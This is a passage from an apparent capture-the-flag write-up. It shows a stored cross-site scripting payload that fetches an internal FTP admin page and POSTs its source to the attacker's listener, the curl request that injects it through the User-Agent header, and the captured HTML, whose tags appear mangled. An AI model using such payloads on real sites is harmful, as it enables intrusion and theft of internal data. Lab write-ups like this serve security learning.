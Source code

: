 

    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if(fetch_req.readyState == XMLHttpRequest.DONE) {
            var exfil_req = new XMLHttpRequest();
            exfil_req.open("POST", "http://10.10.14.11:3000", false);
            exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
        }
    };
    fetch_req.open("GET", "http://ftp.crossfit.htb/", false);
    fetch_req.send();



On sending that with curl:



    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-get.js"></script>'



The page source is returned to `nc` listening on TCP 3000:



    <!DOCTYPE.md>

    .md>
    <head>
        <title>FTP Hosting - Account Management</title>
        <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
    </head>
    <body>

    <br>
    <div class="container">
            <div class="row">
            <div class="col-lg-12 margin-tb">
                <div class="pull-left">
                    <h2>FTP Hosting - Account Management</h2>
                </div>
                <div class="pull-right">
                    <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>
                </div>
            </div>
        </div>
        <table class="table table-bordered">
            <tr>
                <th>No</th>
                <th>Username</th>
                <th>Creation Date</th>
                <th width="280px">Action</th>
            </tr>
        </table>
    </div>
    </body>
    <.md>
